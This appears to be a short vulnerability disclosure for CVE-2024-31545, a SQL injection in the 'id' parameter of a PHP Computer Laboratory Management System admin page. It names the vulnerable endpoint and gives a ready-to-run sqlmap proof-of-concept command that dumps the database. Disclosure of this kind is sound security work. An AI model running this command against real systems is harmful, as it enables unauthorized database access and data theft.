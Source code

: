 
# CVE-2024-31545 SQLi in Computer Laboratory Management System
+ Exploit Author: Emirhan Mutlu
# Vendor Homepage
+ https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html
# Software Link
+ https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html
# Overview
+ A SQL Injection vulnerability in Computer Laboratory Management System allows attackers to execute arbitrary SQL commands on the database server and exfiltrate sensitive data.
# Vulnerability Details
+ CVE ID: CVE-2024-31545
+ Vulnerable Endpoint: /php-lms/admin/?page=user/manage_user&id=6
+ Parameter: id
# Description
+ The lack of proper input validation and sanitization on the 'id' parameter allows an attacker to craft SQL injection queries and gaining unauthorized access to the database.

# Proof of Concept (PoC) : 
+ `sqlmap -u "http://localhost/php-lms/admin/?page=user/manage_user&id=6" --batch --level 5 --risk 3 --dbms=mysql --current-db --threads 10`
